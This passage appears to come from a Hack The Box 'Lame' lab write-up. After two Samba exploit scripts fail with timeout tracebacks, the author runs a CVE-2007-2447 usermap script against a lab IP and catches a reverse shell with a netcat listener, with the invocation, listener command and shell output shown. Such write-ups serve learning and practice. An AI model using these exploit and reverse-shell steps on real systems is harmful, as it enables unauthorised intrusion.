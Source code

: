 ```
    assert conn.connect(sys.argv[1], 445)
  File "/usr/local/lib/python2.7/dist-packages/smb/SMBConnection.py", line 122, in connect
    self._pollForNetBIOSPacket(timeout)
  File "/usr/local/lib/python2.7/dist-packages/smb/SMBConnection.py", line 595, in _pollForNetBIOSPacket
    raise SMBTimeout
smb.base.SMBTimeout
```

For some reason this script dont work. So ill be trying [this](https://github.com/macha97/exploit-smb-3.0.20/blob/master/exploit-smb-3.0.20.py) one after editting the variables via nano:

```
root@kali:/home/kali/Desktop/HTB/machines/lame# python3 exploit-smb-3.0.20.py 
Traceback (most recent call last):
  File "/home/kali/Desktop/HTB/machines/lame/exploit-smb-3.0.20.py", line 22, in <module>
    conn.connect(victim_ip, 139)
  File "/usr/lib/python3/dist-packages/smb/SMBConnection.py", line 112, in connect
    self._pollForNetBIOSPacket(timeout)
  File "/usr/lib/python3/dist-packages/smb/SMBConnection.py", line 541, in _pollForNetBIOSPacket
    raise SMBTimeout
smb.base.SMBTimeout
```

And again this script did not work as well, lucky for me [this](https://github.com/amriunix/CVE-2007-2447) script implements a different shell creation method so here goes nothing:

```
root@kali:/home/kali/Desktop/HTB/machines/lame# python usermap_script.py 10.129.95.84 139 10.10.14.33 666
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```

And so I did check netcat:

```
root@kali:/home/kali/Desktop/HTB/machines/lame# nc -lvp 666
listening on [any] 666 ...
10.129.95.84: inverse host lookup failed: Unknown host
connect to [10.10.14.33] from (UNKNOWN) [10.129.95.84] 58516
ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
initrd.img.old
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
```